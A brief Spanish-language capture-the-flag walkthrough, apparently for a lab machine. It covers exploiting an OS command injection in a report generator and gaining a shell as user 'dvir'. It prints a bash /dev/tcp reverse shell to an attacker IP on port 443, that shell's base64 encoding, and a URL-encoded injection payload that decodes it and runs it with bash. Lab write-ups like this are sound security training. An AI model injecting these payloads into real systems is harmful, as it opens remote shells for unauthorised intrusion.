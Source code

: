 # OS comand injection

No encontré ninguna pista de como puede estar generando el reporte, como usa python puede estar usando `subprocess.run` o `os.system`.

En burpsuite pruebo ejecutar el comando id colocando un `;`:

![id.png](Images/id.png)

y Funciona:

![idres.png](Images/idres.png)

# Shell como dvir

Convierto la revshell en base64:

```
echo -n "bash -i >& /dev/tcp/10.10.14.94/443 0>&1" | base64
YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC45NC80NDMgMD4mMQ==
```

```
echo+"YmFzaCAtaSA%2bJiAvZGV2L3RjcC8xMC4xMC4xNC45NC80NDMgMD4mMQ%3d%3d"+|+base64+-d+|+bash
```

Hace un `echo` de la revshell en b64, la decodifica con `base64 -d` y lo ejecuta con `bash`

![revshell.png](Images/revshell.png)
